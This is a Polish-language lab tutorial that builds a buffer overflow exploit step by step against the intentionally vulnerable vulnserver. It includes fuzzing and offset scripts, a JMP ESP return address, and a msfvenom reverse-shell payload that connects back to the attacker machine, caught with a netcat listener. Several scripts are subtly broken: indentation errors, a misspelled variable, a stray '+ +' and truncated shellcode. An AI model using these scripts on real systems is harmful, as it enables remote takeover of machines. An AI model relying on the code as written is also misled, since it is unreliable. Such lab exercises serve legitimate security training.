








Atak przeprowadzany jest na serwerze *vulnserver* - serwer osadzony jest w systemie *Windows 10* (IP: 192.168.201.128). Systemem operacyjnym maszyny atakującej jest *Parrot OS* (IP: 192.168.201.130).

## **Spiking**

Spiking to przeprowadzenie tzw. *protocol stress test*, działanie to ma dna celu wysłanie losowych danych z zaasdmiarem wyłączenia zabezpieczeń hosta.

Po stronie Windows 10 uruchamiamy podatny serwer oraz program *Immunity Debugger*, załączamy uruchomiony serwer i wybieramy opcję *run*.





W celu przeprowadzenia spikingu tworzymy skrpyt o nazwie *trun.spk* (tworzymy go na maszynie atakującej)

    nano trunk.spk

Uzupełniamy go o poniższy kod:

    s_readline();
    s_string("TRUN ");
    s_string_variable("0");

Zapisujemy i skorzystaym teraz z narzędzia do *spikingu* - *generic_send_tcp*. Wpisujemy poniższe polecenie:

    generic_send_tcp 192.168.201.128 9999 trun.spk 0 0

Po chwili nasz program "wysypie się" przez *Acces violation when executing*. Zwróćmy uwagę na rejestry, widzimy że wysłaliśmy bardzo dużo "A", tak dużo, że aż zmieniliśmy wartość rejestru EIP, który mówi programowi gdzie ma przejść dalej aby wykonać następne polecenie. Wartość tego rejestru to teraz 41414141, W ASCII wartość heksadecymalna 41 odpowiada własnie literze "A".

## **Fuzzing**

*Fuzzing* jest generalnie podobny do *spikingu*, z tym że *spiking* był robiony po to zabić program, *fuzzing* posłuży nam do uzyskania pewnych informacji.

W tym celu tworzymy skrypt napisany w języku Python (*l.py*):

```python
#!/usr/bin/python
import sys
import socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = bufer + "A" * 100
    except:
        print "Fuzzing crash at %s bytes" % str(len(buffer))
        sys.exit()
```

Powyższy program wskaże nam mniej więcej na jakiej wartości program wysypuje się. Na Windowsie 10 uruchamiamy serwer i załączamy go do *Immunity Debuggera*. Może tak się zdarzyć że serwer nie zakończy swojego działania więc będziemy musieli zamknąć wykonywany skrypt na maszynie atakującej ręcznie. Otrzymujemy powiadomienie że program wysypał się gdzieś przy 3000 bajcie. Ta informacja będzie potrzebna przy tworzeniu tzw. *offsetu*.





## **Offest**

Będziemy teraz szukać *offsetu* wartość rejestru EIP jest nadpisywana. W pierwszej kolejności korzystamy z narzędzia metasploit które wygenerujemy nam wzór na podstawie zdobytej wcześniej na etapie *fuzzingu* informacji. 

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000



Powyższy output kopiujemy i napiszemy teraz kolejny skrypt w języku Python (*2.py*), który tym razem znajdzie nam konkretną wartość offsetu.

```python
#!/usr/bin/python

import sys, socket

offset = "<output from above command>"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + offset))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

Po wykonaniu tej komendy przechodzimy do *Immunity Debuggera* i przepisujemy wartość rejestru *EIP*, tj. **386F4337**





Oczywiście to jeszcze nie jest dokładna wartość *EIP*, jednak zdobyta wartość umożliwi nam ostateczne znalezienie *offsetu*.

Wpisujemy polecenie:

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337

    Output: [*] Exac match at offset 2003

Zatem znaleźliśmy nasz *offset* wynosi on 2003, czyli po 2003 bajtach możemy sterować *EIP*, co oznacza że możemy kontrolować przepływ programu.


## **Bad characters**

Wszystkie *bad characters* bierzemy z [GitHuba](https://github.com/cytopia/badchars). Modyfikujemy nasz kod *2.py* w następujący sposób:

```python
#!/usr/bin/python

import sys, socket

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

shellcode = "A" * 2003 + "B" * 4 + badchars # adresem EIP będzie 42424242 (4 * "B")

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

Po wykonaniu programu, w *Immunity Debugger* klikamy ppm na rejestr ESP i wybieramy *Follow in Dump*, przejdziemy wtedy do okna *Hex Dump*, teraz będziemy sprawdzać czy przypadkiem nie brakuje jakieś wartości, nie widzimy żadnej takiej wartości więc może przejść do następnego kroku.





## **Poszukiwanie modułu**

Korzystamy z narzędzia *mona*, pobieramy je z [GitHuba](https://github.com/corelan/mona) i wrzucamy do folderu z *Immunity Debuggerem*. Teraz w samym *Immunity Debugger* wpisujemy poniższe polecenie:

    !mona modules





Powyżej znajduje się wynik, szukamy modułów które mają wszędzie wyłączoną ochronę (false) idealnym kandydatem jest kandydat na samej górze, zachowajmy tę informację. Teraz musimy trochę odbiec od *Immunity Debuggera* i wrócić do maszyny atakującej, będziemy chcieli przetłumaczyć `JMP ESP` na wartość heksadecymalną. Wykonujemy szereg poniższych poleceń:

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    nasm > JMP ESP

    Output: 00000000 FFE4          jmp esp

Tą wartością heksadecymalną jest `FFE4`. Ponownie przechodzimy do *Immunity Debuggera* i ponownie będzie korzystać z mony. Wpisujemy poniższe polecenie

    !mona find -s "\xff\xe4" -m essfunc.dll



Przepisujemy wartość pierwszego pointera tj. `625011af`. Przechodzimy znów na maszynę atakującą i edytujemy plik *2.py*. Usuwamy *badchars* i modyfikujemy shellcode, zamiast 4 * "B" wpisujemy wartość pointera jednak od tyłu, dzieje się tak dlatego że procesory x64 opierają się na *little endian* - tzn. najmniej znaczący bajt umieszczony jest jako pierwszy.  Czyli nasz kod powinien wyglądać tak:

```python
#!/usr/bin/python

import sys, socket

shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

Następnie w *Immunity Debugger* będziemy śledzić nasz *jump point* `625011af` (wybieramy opcję na lewo od litery "l", na tym samym pasku co uruchamiamy program), ustawiamy również *breakpoint* wciskając klawisz F2. Po uruchomieniu powyższego kodu program zatrzyma się na naszym *breakpoincie* - zatem kontrolujemy EIP!.

## **Wygenerowanie shellcode'u i zdobycie roota**

Przy pomocy msfvenom wygenerujemy shellcode, używamy poniższego polecenia (nie wspomnieliśmy o tym wczesniej, ale jako *bad character* należy podać *null byte* czyli *\x00*):

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.201.130 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

Dostaniemy nasz *shellcode* zapisany w postaci szesnastkowej. Edytujemy ponownie nasz plik *2.py* w poniższy sposób. Zatem na początku naruszamy bufor wypisując 2003 razy "A", później przechodzimy do *jump pointu*, a z tego *jump pointu* przechodzimy do naszego złośliwego kodu wygenerowanego powyżej (przed wartością *overflow* znajduje się jeszcze polecenie 32 * "\x90", \x90 odpowiada za "nic nie robienie", trochę wolnej przestrzeni zapewni nam większe prawdopodobieństwo ukończenia naszego działania).


```python
#!/usr/bin/python

import sys, socket

overflow = ("\xda\xc5\xd9\x74\x24\xf4\x5a\x31\xc9\xbf\x46\x5d\xb1\x8e"
"\xb1\x52\x31\x7a\x17\x83\xc2\x04\x03\x3c\x4e\x53\x7b\x3c"
"\x98\x11\x84\xbc\x59\x76\x0c\x59\x68\xb6\x6a\x2a\xdb\x06"
"\xf8\x7e\xd0\xed\xac\x6a\x63\x83\x78\x9d\xc4\x2e\x5f\x90"
"\xd5\x03\xa3\xb3\x55\x5e\xf0\x13\x67\x91\x05\x52\xa0\xcc"
"\xe4\x06\x79\x9a\x5b\xb6\x0e\xd6\x67\x3d\x5c\xf6\xef\xa2"
"\x15\xf9\xde\x75\x2d\xa0\xc0\x74\xe2\xd8\x48\x6e\xe7\xe5"
"\x03\x05\xd3\x92\x95\xcf\x2d\x5a\x39\x2e\x82\xa9\x43\x77"
"\x25\x52\x36\x81\x55\xef\x41\x56\x27\x2b\xc7\x4c\x8f\xb8"
"\x7f\xa8\x31\x6c\x19\x3b\x3d\xd9\x6d\x63\x22\xdc\xa2\x18"
"\x5e\x55\x45\xce\xd6\x2d\x62\xca\xb3\xf6\x0b\x4b\x1e\x58"
"\x33\x8b\xc1\x05\x91\xc0\xec\x52\xa8\x8b\x78\x96\x81\x33"
"\x79\xb0\x92\x40\x4b\x1f\x09\xce\xe7\xe8\x97\x09\x07\xc3"
"\x60\x85\xf6\xec\x90\x8c\x3c\xb8\xc0\xa6\x95\xc1\x8a\x36"
"\x19\x14\x1c\x66\xb5\xc7\xdd\xd6\x75\xb8\xb5\x3c\x7a\xe7"
"\xa6\x3f\x50\x80\x4d\xba\x33\x6f\x39\x0d\x41\x07\x38\x8d"
"\x57\x84\xb5\x6b\x3d\x24\x90\x24\xaa\xdd\xb9\xbe\x4b\x21"
"\x14\xbb\x4c\xa9\x9b\x3c\x02\x5a\xd1\x2e\xf3\xaa\xac\x0c"
"\x52\xb4\x1a\x38\x38\x27\xc1\xb8\x37\x54\x5e\xef\x10\xaa"
"\x97\x65\x8d\x95\x01\x9b\x4c\x43\x69\x1f\x8b\xb0\x74\x9e"
"\x5e\x8c\x52\xb0\xa6\x0d\xdf\xe4\x76\x58\x89\x52\x31\x32"
"\x7b\x0c\xeb\xe9\xd5\xd8\x6a\xc2\xe5\x9e\x72\x0f\x90\x7e"
"\xc2\xe6\xe5\x81\xeb\x6e\xe2\xfa\x11\x0f\x0d\xd1\x91\x2f"
"\xec\xf3\xef\xc7\xa9\x96\x4d\x8a\x49\x4d\x91\xb3\xc9\x67"
"\x6a\x4")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + + "\x90" * 32 + overflow

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```

W oddzielnym terminalu uruchamiamy nasłuchiwanie:

    nc -nvlp 4444

Uruchamiamy nasz skrypt (nie potrzebujemy już *Immunity Debuggera*, ale trzeba upewnić się czy serwer jest uruchomiony jako administrator). Mamy to! Zdobyliśmy roota, możemy to potwierdzić poleceniem `whoami`.


